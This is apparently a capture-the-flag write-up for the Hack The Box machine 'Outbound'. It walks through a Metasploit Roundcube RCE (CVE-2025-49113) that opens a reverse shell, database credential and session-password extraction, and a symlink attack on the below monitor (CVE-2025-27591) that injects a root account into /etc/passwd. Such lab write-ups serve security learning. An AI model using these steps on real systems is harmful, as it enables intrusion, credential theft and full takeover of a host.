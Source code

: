 [Outbound](https://app.hackthebox.com/machines/Outbound) is a hackthebox linux machine that may or may not have something to do with Outbound messages. Only way to find out is to actually hack the machine.

The machines description has given us the following this time around:
```
As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2
```

Let's start with the usual Nmap scan.
```
$ nmap -A -T4 -v outbound.thm
...
Nmap scan report for outbound.htb (10.10.11.77)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
```

Testing out our provided credentials on SSH didn't get us anywhere so we can rule that out fairly quickly for now.

We'll also setup another full-range and UDP scan in the background. Adding the mail subdomain to our host sends us to a Roundcube Webmail instance. I was able to login using the provided credentials here.

![](./images/img1.png)

Clicking "About", I was able to gather that this instance is running Roundcube version 1.6.10. A quick search shows us that this version is vulnerable to [CVE-2025-49113](https://www.offsec.com/blog/cve-2025-49113/), which is a flaw in how roundcube deserializes PHP objects.

Thankfully, Metasploit has a module that will allow us to exploit this vulnerability. Setting it up:

```
msf exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > exploit
[*] Started reverse TCP handler on <attacker>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Extracted version: 10610
[+] The target appears to be vulnerable.
[*] Fetching CSRF token...
[+] Extracted token: aS22LrbPL7oWOArEuzozAmJnK188WDfg
[*] Attempting login...
[+] Login successful.
[*] Preparing payload...
[+] Payload successfully generated and serialized.
[*] Uploading malicious payload...
[+] Exploit attempt complete. Check for session.
[*] Sending stage (3090404 bytes) to 10.10.11.77
[*] Meterpreter session 1 opened (<attacker>:4444 -> 10.10.11.77:54698) at 2025-09-18 10:52:49 -0400

meterpreter > 
```

We managed to get a session as `www-data`. through some further enumeration, I found that:
+ We are running inside a docker container.
+ The system has three users: Jacob, Mel, and tyler,
+ The docker container is listening in on 80, 110, 143, 993, and 995 on all interfaces, as well as 25 and 3306 locally.
+ Roundcube is accessing a MySQL database via `roundcube:RCDBPass2025` as well as a DES key: `rcmail-!24ByteDESkey*Str`

We'll look at the former later *if* we need to. For now, let's focus on seeing what we can extract out of the database. Some digging shows that we might be able to extract a few passwords from the `session` table in the database.

![](./images/img2.png)

Seems like the entries are base64-encoded. after decoding we are given `jacob`'s session. This also includes his encrypted password. Setting up [this](https://github.com/rafelsusanto/rcube-password-decryptor) python script I was able to extract jacob's password

![](./images/img3.png)

testing it out with `su jacob`:

```
$ su jacob
Password:

$ whoami
jacob
```

looking into jacob's home directory, we find his inbox which houses two things: Another password, and a message from mel:

```
We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities.

Thanks!

Mel
```

The provided password allows us to SSH into the machine directly rather than the docker container. And from there, we are able to obtain the user flag.

for Privilege Escalation, let's start with the simplest possible vector: `sudo -l`

```
$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*,
        !/usr/bin/below --debug*, !/usr/bin/below -d*
```

[below](https://github.com/facebookincubator/below) is a resource monitor with support for "time-travelling". Most notably, the one on our system is running below v0.8.0, which is vulnerable to [CVE-2025-27591](https://nvd.nist.gov/vuln/detail/CVE-2025-27591). Mainly, the fact that `/var/log/below` is world-writable makes it susceptible to symlink attacks. Making the script to attack this vulnerability is actually pretty simple. But, I'm a lazy bastard. So I used this here [script](https://github.com/obamalaolu/CVE-2025-27591/blob/main/CVE-2025-27591.sh). SCP'ing it into jacob's home directory and executing it:

```
jacob@outbound:~$ ./exploit.sh 
[*] CVE-2025-27591 Privilege Escalation Exploit
[*] Checking sudo permissions...
[*] Backing up /etc/passwd to /tmp/passwd.bak
[*] Generating password hash...
[*] Creating malicious passwd line...
[*] Linking /var/log/below/error_root.log to /etc/passwd
[*] Triggering 'below' to write to symlinked log...
[*] Injecting malicious user into /etc/passwd
[*] Try switching to 'haxor' using password: hacked123
Password: 
haxor@outbound:/home/jacob# ls /root
root.txt
haxor@outbound:/home/jacob# cat /root/root.txt
<redacted>
```

This was a rather straightforward machine. But, it did remind me how easy it is to fall into rabbit holes thanks to the possibility of a container escape. Regardless, a nice 5-min hack.